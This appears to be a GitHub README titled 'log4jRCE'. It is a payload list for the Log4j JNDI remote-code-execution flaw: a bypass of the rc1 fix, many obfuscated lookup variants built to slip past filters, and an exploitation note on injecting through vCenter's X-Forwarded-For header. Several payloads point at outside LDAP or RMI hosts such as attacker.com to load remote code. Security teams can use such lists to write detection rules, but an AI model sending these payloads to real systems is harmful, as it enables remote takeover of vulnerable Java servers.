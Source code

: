 # #log4jRCE

```
1.绕过rc1版本
${jndi:ldap://127.0.0.1:1389/ badClassName}

2.绕过方式
${${env:aaaa:-j}${env:aaaa:-n}${env:aaaa:-d}${env:aaaa:-i}:${env:aaaa:-l}${env:aaaa:-d}${env:aaaa:-a}${env:aaaa:-p}${env:aaaa:-:}//
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://asdasd.asdasd.asdasd/poc}
${${::-j}ndi:rmi://asdasd.asdasd.asdasd/ass}
${jndi:rmi://adsasd.asdasd.asdasd}
${${lower:jndi}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:${lower:jndi}}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://xxxxxxx.xx/poc}
${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attacker.com/a}
${jndi:${lower:l}${lower:d}a${lower:p}://loc${upper:a}lhost:1389/rce}
jn${env::-}di: 
jn${date:}di${date:':'} 
j${k8s:k5:-ND}i${sd:k5:-:} 
j${main:\k5:-Nd}i${spring:k5:-:} 
j${sys:k5:-nD}${lower:i${web:k5:-:}} 
j${::-nD}i${::-:} 
j${EnV:K5:-nD}i: 
j${loWer:Nd}i${uPper::}

3.利用
vcenter: 
X-Forwarded-For: ${xx/o=tomcat}

User-Agent: 


```

![https://github.com/Nan3r/log4j/blob/main/README.assets/2.png](README.assets/2.jpg)

![https://github.com/Nan3r/log4j/blob/main/README.assets/1.png](README.assets/1.png)
